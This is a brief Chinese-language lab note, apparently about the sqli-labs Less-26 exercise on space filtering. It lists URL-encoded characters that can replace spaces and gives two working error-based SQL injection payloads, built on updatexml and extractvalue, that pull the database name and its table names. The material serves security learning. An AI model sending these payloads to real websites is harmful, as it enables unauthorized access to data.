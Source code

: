 

空格替代品：

`%09` 水平tab键

`%0a` 新建一行

`%0c` 新建一页

`%0d` return功能

`%0b` 垂直tab键

`%a0` 空格键

或者不要空格，用括号



【闭合单引号省略注释符】

如：

```
id=1%27||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))||1=%27
```



![image-20220116090834477](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less26-空格过滤.assets/image-20220116090834477.png)

单引号闭合



```
?id=1'||(extractvalue(1,concat(0x7e,(select(database())),0x7e)))||1='
```

![image-20220116094623658](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less26-空格过滤.assets/image-20220116094623658.png)
